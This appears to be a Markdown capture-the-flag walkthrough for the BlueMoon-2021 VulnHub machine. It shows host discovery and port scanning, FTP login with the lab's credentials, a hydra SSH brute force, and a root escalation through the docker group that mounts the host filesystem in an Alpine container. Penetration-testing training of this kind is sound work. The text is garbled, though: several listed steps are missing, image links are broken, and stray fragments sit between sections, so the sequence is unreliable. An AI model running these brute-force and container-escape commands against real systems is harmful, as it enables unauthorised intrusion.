

# :closed_lock_with_key: Lab 2 - Bluemoon-2021 VulnHub Walkthrough

## Table of Contents

- [Lab Setup](#desktop_computer-lab-setup)
- [Step 1 - Reconnaissance](#mag-step-1---reconnaissance)
- [Step 2 - Find Your IP](#globe_with_meridians-step-2---find-your-ip)
- [Step 3 - Discover Target Machine](#satellite-step-3---discover-target-machine)
- [Step 4 - Port Scanning](#door-step-4---port-scanning)
- [Step 5 - Web Enumeration](#earth_africa-step-5---web-enumeration)
- [Step 6 - Hidden Directory Discovery](#card_index_dividers-step-6---explore-hidden-directory)
- [Step 7 - FTP Access](#file_folder-step-7--login-via-ftp)
- [Step 8 - SSH Brute Force](#old_key-step-8--ssh-brute-force)
- [Step 9 - Initial Access](#computer-step-9--ssh-login)
- [Step 10 - Horizontal Privilege Escalation](#arrow_up-step-10--horizontal-privilege-escalation-to-jerry)
- [Step 11 - Root Privilege Escalation](#whale-step-11--vertical-privilege-escalation)
- [Conclusion](#books-conclusion)

A step-by-step penetration testing walkthrough for the **BlueMoon 2021 VulnHub machine**.

---

## :desktop_computer: Lab Setup

- Attacker Machine: Kali Linux
- Target Machine: BlueMoon
- Network: Host-Only Adapter
- Tools Used:
  - nmap
  - netdiscover
  - gobuster
  - hydra
  - ftp
  - ssh

[Download from VulnHub](https://www.vulnhub.com/entry/bluemoon-2021,679/)  
Import and start it in **VirtualBox**  


---

## :mag: Step 1 - Reconnaissance
Locating the target IP within the local network range.
```bash
netdiscover
```


---

## :satellite: Step 3 - Discover Target Machine

Nmap is used to identify open ports and running services on the target machine.  

```bash
nmap -sn 192.168.56.0/24
```


---

## :door: Step 4 - Port Scanning

Perform a full port scan to identify open services.  

```bash
nmap -sV -p- 192.168.56.109
```
|
| 80   | Open  | HTTP    |Apache httpd 2.4.38 ((Debian))                |

---

## :earth_africa: Step 5 - Web Enumeration

Access the web server through the browser `http://192.168.56.109`.  
No useful information is visible on the main page.  

![alt text](

**Credentials found:**
```
USER: userftp
PASSWORD: ftpp@ssword
```

---
## :file_folder: Step 7 — Login via FTP

Login using the discovered FTP credentials.  

```bash
ftp 192.168.56.109
```
![alt text](

List down the files, and there are two files called information.txt and p_lists.txt.

```bash
ls
```

Download those files to host machine using get command.

```bash
get information.txt
get p_lists.txt
```
![alt text](

Read the files:

```bash
cat information.txt
```
![alt text](

```bash
cat p_lists.txt
```
![alt text](

> `information.txt` reveals a username: **robin**  
> `p_lists.txt` is a password list

---

## :old_key: Step 8 — SSH Brute Force

Using Hydra to brute force SSH.

```bash
hydra -l robin -P p_lists.txt ssh://192.168.56.109
```
'
```

  
So, we can exploit Alpine image and mount the root directory in a docker container which will prompt us the root shell.

Exploit the docker container to mount the root filesystem.

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![alt text](

Verify root access and retrieve the root flag.

```bash
id
cd /root
ls
cat root.txt
```

![alt text](

> :triangular_flag_on_post: **Root Access Achieved – Machine Successfully Compromised!**

# :books: Conclusion

This VulnHub machine demonstrates several important penetration testing techniques:

- Network discovery using **netdiscover**
- Port scanning using **nmap**
- Web directory enumeration using **gobuster**
- Credential discovery through **QR code decoding**
- SSH brute force using **hydra**
- Horizontal privilege escalation
- Root privilege escalation via **docker group abuse**

Through these steps, full root access to the machine was achieved.
